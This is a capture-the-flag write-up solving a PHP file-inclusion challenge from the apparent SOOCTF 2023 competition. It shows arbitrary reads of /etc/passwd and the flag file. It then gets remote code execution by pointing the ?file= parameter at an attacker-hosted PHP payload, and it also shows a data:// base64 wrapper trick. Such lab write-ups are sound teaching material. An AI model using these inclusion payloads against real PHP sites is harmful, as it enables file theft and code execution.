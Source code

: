 ### Arbitrary file read?

My first instinct was just to try a few different files to see what we could access.
`/etc/hostname`? *check*. `/etc/passwd`? *check*. And last but not least, drum roll
please... `/flag.txt`? *check*, well... kind of?

![Screenshot of the partial flag we could read](/image/sooctf-2023-style-points-partial-flag.jpg)
Figure 7: *the partial flag read using arbitrary file read*

Unfortunately it seems like the flag is getting truncated. All we get is:
`SOOCTF{pHp_1s_tRu1y_4n_1nt3r3st1ng_`. How annoying!

After this set back I messed around with the site for quite a while to no avail.
One of my ideas was to [combine log poisoning with LFI](https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d),
but that wouldn't have worked because the input file gets truncated to 35 characters.
That's when I gave it a break and moved on to some other challenges.

### Finally, an idea

On the second day of the competition, I came back to the challenge with a fresh
pair of eyes, and still didn't come up with anything new. But eventually I remembered
that PHP is stupid, and it often allows you to give it URLs in place of file paths;
terrible for security, and great news for us!

The first payload I tried for this new idea was `?file=https://www.google.com`, just
to see if anything would happen. And luckily, something did! I got a spinning ` <`.
Weird, but still a good sign. My next thought was that the server is probably using
some sort of `include` to display the contents of the file (after truncation), which
would be stupid. But it would also mean that we can host a php payload on an HTTP server
somewhere to get RCE. Weirdly, the URL only seemed to get read if it was HTTPS, so I
hosted the payload on a development branch of my personal website as that was the
fastest way I could think of.

```php
<?php readfile("/flag.txt"); ?>
```
Figure 8: *the payload 🙏 (which importantly is shorter than the truncated flag)*

With the payload hosted, all I had to do was visit
http://chal.stateoforigin.online:3006/index.php?file=https://stackotter-git-sooctf-stackotter.vercel.app/test.php,
and voila, I got the flag in all its spinning glory!

Flag: `SOOCTF{pHp_1s_tRu1y_4n_1nt3r3st1ng_l4ngu4ge_b77b9324}`

### Improvements

Later on during the competition, I came up with a much nicer approach which I could've used.
I wouldn't have even had to host the payload! The idea came to me when I was reading about
[PHP's supported protocols and wrappers](https://www.php.net/manual/en/wrappers.php).
The key being the `data://` wrapper. We can use a `base64` data URL to feed the server
arbitrary data to output. For example, supplying `?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`
gets the site to display `I love PHP` (it may be more accurate to say that I love *breaking*
PHP).
